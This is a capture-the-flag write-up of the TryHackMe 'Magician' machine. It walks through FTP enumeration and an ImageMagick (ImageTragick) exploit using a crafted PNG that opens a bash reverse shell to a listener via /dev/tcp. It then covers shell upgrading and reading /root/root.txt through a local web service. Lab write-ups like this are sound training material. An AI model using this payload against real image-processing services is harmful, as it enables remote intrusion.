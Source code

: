 <h1> Tryhackme Magician Machine </h1>
<h3>by purpler0se</h3>
	<p>...enjoy :D</p>
<h2> Starting off with basic enumeration to get our ports </h2>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/nmap.png">
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/etc.png">
	<h4> Now remembering what was instructed in the info for task one which was "Please add the IP address of this machine with the hostname 'magician'
		to your /etc/hosts file on linux before you start." (example above)</h4>
<h3> I checked out ftp port logging in as "anonymous" user with no password</h3><h4> ftp [MACHINE_IP] 21 </h4>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/ftp.png">
<h3> I got prompted with this as i logged in. It told me a clue that will help us later in our payload</h3>
	</h4>https://imagetragick.com</h4>
</br>
<h1>Web enumeration</h1>
	<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/convert.png">

<h3> Port 8081 had a png to jpg converted which is the ticket for our way in :D</h3>
	<h4>but port 8080,for now had nothing intresting</h4>
	<h3> with that given link (https://imagetragick.com) we can create a reverse shell payload</h3>
</br>
<h1> Creating the Png Payload </h2>
	<h3>On you local create a file with the extension .png shown in the commands below</h3>
		<h4>touch reverse.png</h4>
		<h4> nano reverse.png</h4>
	<h3>Paste this code in using an editor like vim or nano</h3>
		<h4>push graphic-context</h4>
		<h4>viewbox 0 0 640 480</h4>
		<h4>fill 'url(https://example.com";bash -c \'bash -i >& /dev/tcp/10.9.1.225/1557 0>&1\'")'</h4>
		<h4>pop graphic-context</h4>
		<h3>I've changed the original payload at https://imagetragick.com so it gives us a shell, further explaination of this exploit CVE-2016-3174 at https://imagetragick.com</h3></br>
			<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/payload.png">
		<h4>Your payload should look like this and when you run "file" on the payload u should get "ImageMagick Vector Graphic"</h4>
<h1> Getting a shell</h1>
	<h3>Setup a netcat listner on your local machine</h3>
	<h4> nc -lnvp [any_port]</h4>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/upload.png">
	<h3> Now upload that payload and onces its submitted click on it and then just wait for a callback</h3>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/shell.png">
	<h3>Once you get the callback upgrade your shell by doing the following commands</h3>
	<h4>export TERM=xterm</h4>
	<h4>python3 -c "import pty;pty.spawn('/bin/bash')"</h4>
	<h4>CTRL + Z</h4>
	<h4>BASH: stty raw -echo && fg</br>
	ZSH: stty raw -echo; fg
	</h4>
	<h4> and then WHACK your enter key 3x</h4>
	<h4> stty rows [yours] cols [yours] (You can find your rows and columns by doing stty -a on your local machine</h4>
<h1> From Magician to ROOT</h1>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/hint.png">
	<h3>We got a hint in the home directory magician, file named "the_magic_continues," the giveaway to the priv esc is "locally listening" therefore its a internal ip priv esc 			situation.We can list the listening connection on the targets machine by doing</h3>
	<h4>netstat -ant</h4>
		<img src="https://github.com/purpler0se/tryhackme-writeups/blob/main/images/ips.png">
	<h3>As you can see the localhost on port 6666 is listening. I did the following command</h3>
		<h4> curl 127.0.0.1:6666</h4>
	<h3>And got the code for a simple input website - i think was suppose to be port 8081</h3>
	<h3>Now reading the source code u can see there is a input with the name "filename" so the code i used to send to this input is</h3>
		<h4>curl --request POST 'http://127.0.0.1:6666' --data "filename=/root/root.txt"</h4>
	<h3>I decrypted this by going to https://gchq.github.io/CyberChef/ and using the "From Hex" to get the THM{} flag</h3>
discord - purpler0se#6981
<h1> Thanks for reading my writeup on how i tackled this machine</h1>
	
	
	
	
